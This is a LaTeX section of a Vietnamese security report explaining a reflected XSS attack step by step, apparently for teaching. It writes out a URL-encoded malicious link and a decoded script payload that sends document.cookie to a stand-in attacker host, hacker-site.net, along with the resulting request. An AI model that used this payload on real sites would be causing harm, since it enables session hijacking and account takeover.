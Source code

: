 \documentclass[../main-report.tex]{subfiles}
\begin{document}
\begin{enumerate}
\item Người dùng đăng nhập web và giả sử được gán session với cookie định danh sau:

\begin{lstlisting}
Set-Cookie: sessId=5e2c648fa5ef8d653adeede595dcde6f638639e4e59d4
\end{lstlisting}

\item Bằng cách nào đó, hacker gửi được cho người dùng URL:
 
\begin{lstlisting}
http://example.com/name=%3Cscript%3Evar+i%3Dnew+Image%3B+i.src%3D%E2%80%9Dhttp%3A%2F%2Fhacker-site.net%2F%E2%80%9D%2Bdocument.cookie%3B%3C%2Fscript%3E
\end{lstlisting}

Giả sử \textbf{example.com} là website nạn nhân truy cập, \textbf{hacker-site.net} là trang của hacker tạo ra.

\item Nạn nhân truy cập đến URL trên
\item Server phản hồi cho nạn nhân, kèm với dữ liệu có trong request(đoạn javascript của hacker)
\item Trình duyệt nạn nhân nhận phản hồi và thực thi đoạn javascript. Đoạn javascript mà hacker tạo ra thực tế như sau:

\begin{lstlisting}[language=HTML]
<script>var i=new Image; i.src="http://hacker-site.net/"+document.cookie;</script>
\end{lstlisting}

Dòng lệnh trên bản chất thực hiện request đến site của hacker với tham số là cookie người dùng:

\begin{lstlisting}
GET /sessId=5e2c648fa5ef8d653adeede595dcde6f638639e4e59d4 HTTP/1.1
Host: hacker-site.net
\end{lstlisting}

\item Từ phía site của mình, hacker sẽ bắt được nội dung request trên và coi như session của người dùng sẽ bị chiếm. Đến lúc này, hacker có thể giả mạo với tư cách nạn nhân và thực hiện mọi quyền trên website mà nạn nhân có.
\end{enumerate}

Kịch bản khai thác trên được mô tả như hình \ref{fig:xss_reflect}.

\begin{figure}[ht!]
\centering\texttt{[image: xss-reflect]}
\caption{Kịch bản khai thác lỗ hổng Reflected XSS}
\label{fig:xss_reflect}
\end{figure}
\end{document}

